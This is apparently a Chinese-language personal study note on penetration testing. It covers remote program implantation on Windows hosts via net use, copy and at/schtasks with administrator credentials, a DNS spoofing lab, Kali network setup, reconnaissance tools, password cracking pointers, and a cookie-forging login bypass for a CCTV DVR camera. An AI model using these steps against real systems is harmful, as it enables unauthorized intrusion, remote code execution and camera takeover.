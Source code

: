 # 会用上的

## windows7 获取文件夹操作权限

右键文件夹选择管理员获得权限

## 可能有用的命令

assoc :改变扩展名和文件类型的关联
at 命令添加任务计划，自动执行程序

## 一个程序植入流程

```mermaid
graph TB
1[获取ip] -->
2[测试能否连接] -->
3[获取用户名和密码] -->
4[连接] -->
5[传输] -->
6[执行]
```

### 获取ip

### 连接测试

使用ping命令

### 获取用户名和密码

### 连接

windows可以使用net命令进行连接到共享文件夹
<span style="color:green">如果目标没有设置共享则连接后是空的</span>
常用操作：

```dos
# 查看连接情况
net use
# 连接
net use \\IP PASSWORD /user:USERNAME
# 查看已连接的主机
net view \\HOSTNAME
```

### 传输

windows下使用copy命令复制文件
常用操作：

```dos
copy FILE \\IP
```

### 执行

#### windows下使用at命令

```dos
#查看目标机器的时间
net time IP
# 设置任务计划
at IP TIME EXEPATH
```

<span style="color:green">使用at设置时间时不能设置在同一分钟，如6:30:10时不能设置6:30:50，这样时间会设置为次日</span>

#### windows10使用schtasks命令

<span style="color:green">schedule tasks?</span>

##### 创建新任务

```dos
schtasks /create /tn TASKNAME /tr EXEPATH /sc FREQUENCY /st STARTTIME
# TASKNAME  任务名
# EXEPATH   执行文件(路径)
# FREQUENCY 执行频率，值为once时/st为必须项
# STARTTIME 执行时间
```

栗子1：在本地主机每天11：45时运行记事本

```dos
# 这两句效果相同
schtasks /create /tn RunNotepadDaily /tr notepad /sc daily /st 11:45
schtasks /create /tn RunNotepadDaily /tr C:\Windows\notepad /sc daily /st 11:45
```

栗子2：在远程主机10.0.0.2的administrator用户上于05：14时运行一次记事本

```dos
schtasks /create /tn RunNotepadDaily /tr notepad /sc once /st 05:14 /u administrator /p 123
```

##### 执行已有任务

```dos
schtasks /run /tn TASKNAME
```

## DNS欺骗

### 搭建网站和DNS

以Windows Server 2012 为例
用Windows Server 安装IIS后自己建好了，之后安装DNS添加DNS(正向查找区域)
DNS管理器，右键选择新建主机，如图，填入主机名和IP
![](_v_images/20201128141503539_653.png =500x)
![](_v_images/20201128141805953_28052.png =500x)

虚拟机测试：把测试客户端机的DNS地址设为服务端地址
相关命令：nslookup, 查看DNS地址，运行命令后输入域名查看IP


## 杂项

防火墙拦ping，提示“请求超时”

使用VM时要使虚拟机间通信要将它们设置为相同的网卡，使用VMet2，如图
![](_v_images/20201128120254268_31805.png =425x)

kali内设置静态ip
`ifconfig`
![kali(ifconfig](_v_images/20201202202433529_31443.png =500x)

```bash
vim /etc/network/interfaces
```

根据显示结果填入

```txt
auto eth0 // eth0如图
iface eth0 inet static //eth0如图
adddress 10.0.0.2
netmask 255.255.255.0
gateway 10.0.0.1
```

重启网卡

```bash
systemctl restart networking
```

要使kali联网使用动态dhcp，Vm设置特定虚拟网络VMnet0
```bash
vim /etc/network/interfaces
```

```txt
iface eth0 inet dhcp
# 同时注释掉静态ip的设置
```

互联网中设备：
服务器 --> 交换机 --> 路由器 --> 防火墙 --> 堡垒机 --> IPS --> IDS --> 行为管理器 --> 互联网

某CCTV摄像头漏洞

1. 控制台输入以绕过登录：

```javascript
document.cookie="dvr_camcnt=4";
document.cookie="dvr_usr=admin";
document.cookie="dvr_pwd=123";
```

2. 到`/view2.html`查看

## 密码破解

### 在线密码查询

cmd5.com
pmd5.com

### 暴力破解

使用hydra，基础用法看示例

#### 字典

[crunch使用](https://blog.csdn.net/weixin_37994419/article/details/80341737)

### 抓包

wireshark

## 信息收集

* google使用
    [渗透测试Google语法（Web安全信息收集） - 安全技术 - 深信服社区.html](../../res/Security/渗透测试Google语法（Web安全信息收集）%20-%20安全技术%20-%20深信服社区.html)

* ZoomEye

* shodan

* IP地址反查域名

* whois查询
    通过whois查询域名得到服务器ip，通过ip查询同ip以得到同ip网站找到薄弱点

* DNS信息收集
    `host`命令查询DNS服务器
    `dnsmap`： [参考](https://zhuanlan.zhihu.com/p/258138827)

## 扫描

* whatweb
    [参考](https://www.jianshu.com/p/9c0402bf40ff)
    